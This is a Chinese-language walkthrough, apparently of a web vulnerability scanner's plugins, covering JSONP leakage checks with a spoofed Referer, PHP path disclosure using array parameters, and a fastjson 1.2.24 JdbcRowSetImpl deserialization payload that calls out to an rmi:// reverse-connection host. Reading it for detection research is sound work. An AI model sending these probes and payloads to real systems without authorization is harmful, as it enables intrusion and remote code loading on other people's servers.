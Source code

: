```python
            }
```

in的话  
```python
sensitive_list = ['username', 'memberid', 'nickname', 'loginid', 'mobilephone', 'userid', 'passportid',
                    'profile', 'loginname', 'loginid',
                    'email', 'realname', 'birthday', 'sex', 'ip']
```

匹配上的话在修改下referer 看是否可以继续访问获取信息可以的话认为漏洞存在  

```python
headers["Referer"] = fake_domain
req = requests.get(self.requests.url, headers=headers)
result2 = self.check_sentive_content(req.text)
if not result2:
    return
```

#### php_real_path 信息泄露

根据desc说明 对于一些php网站，将正常参数替换为[]可能造成真实信息泄漏  

所以先判断是否是php的 是的话 对所有参数的key换成k+[]的形式
再次发起请求 并且判断 `"Warning" "array given in` 是否存在响应页面中  

参数增加[]  
```python
for k, v in iterdata.items():
    data = copy.deepcopy(iterdata)
    del data[k]
    key = k + "[]"
    data[key] = v
```

#### poc_fastjson 打fastjson的

如果是json的或者类似json的post请求的  
`if self.requests.post_hint == POST_HINT.JSON or self.requests.post_hint == POST_HINT.JSON_LIKE:`  

创建一个反连平台api实例然后生成token 域名 传入payload生成函数  
发起请求 测试dnslog是否存在  

反连平台api  
```python
rmi = reverseApi()
if rmi.isUseReverse():
    rmidomain = rmi.generate_rmi_token()
    rmi_token = rmidomain["token"]
    fullname = rmidomain["fullname"]
```

1.2.24的payload  

```python
# for fastjson 1.2.24
fastjson_payload = {
    random_str(4): {
        "@type": "com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName": "rmi://{}".format(domain),
        "autoCommit": True
    }
}
```
